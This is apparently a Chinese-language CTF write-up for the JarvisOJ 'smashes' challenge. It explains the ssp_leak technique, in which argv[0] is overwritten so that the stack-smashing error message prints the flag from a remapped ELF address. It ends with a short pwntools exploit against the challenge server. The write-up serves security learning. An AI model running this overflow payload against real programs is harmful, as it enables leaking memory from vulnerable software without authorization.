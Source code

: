 ```yaml
---
title: smashes
date: 2019-07-24
categories:
- javisoj
tags: stack ssp_leak
---
```


# ssp_leak

当程序栈溢出检查失败触发`__chk_stack_fail`函数时，会有一个   
![abort](https://c-ssl.duitang.com/uploads/item/201907/24/20190724130005_usjwZ.png)   
`abort`出现。    
`abort`后面的值是`argv`的指针数组指向的内容。    

`argv[0]`通常指向程序中的可执行文件的文件名。在有些版本的编译器中还包括程序文件所在的路径。   

所以当我们把`argv` 数组覆盖成某个指定的地址，就可以获得这个地址的内容

## 源码

```C
void __attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
    __fortify_fail ("stack smashing detected"); 
}

void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)
```

# 思路

## 函数流程

- 输入一个`name`，造成缓冲区溢出。
- 再次从用户处获取输入，覆盖`data`段的`flag`

## 保护措施

![](https://c-ssl.duitang.com/uploads/item/201907/24/20190724130128_HeXGa.png)


- FORTIFY
<a href = "http://gcc.gnu.org/ml/gcc-patches/2004-09/msg02055.html">详情</a>    

是一种检测和预防某些缓冲区攻击的保护措施。编译器用某些方法预先知道了缓冲区的大小，`__*_chk`就会在运行的的时候知道这个缓冲区是否溢出。    



## ELF重映射

> 当可执行文件足够小的时候，他的不同区段可能在内存中被多次映射，所以当其中一个损坏，还是有机会找到另一处存储着相同的内容。

在这里我们可以找到另外一个存`flag`的地方。   

![pic](https://c-ssl.duitang.com/uploads/item/201907/25/20190725100635_kht3W.png)   

`0x400d20`这个地方就是重映射，没有被覆盖。   

但是本地打不出来。   
![你妈的为什么]()

# exp

```python
from  pwn import * 

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

sh = remote('pwn.jarvisoj.com',9877)

payload = p64(0x400d20) * 160 

sh.sendlineafter('?',payload)
sh.sendlineafter(':',' ')

sh.interactive()
sh.close()
```
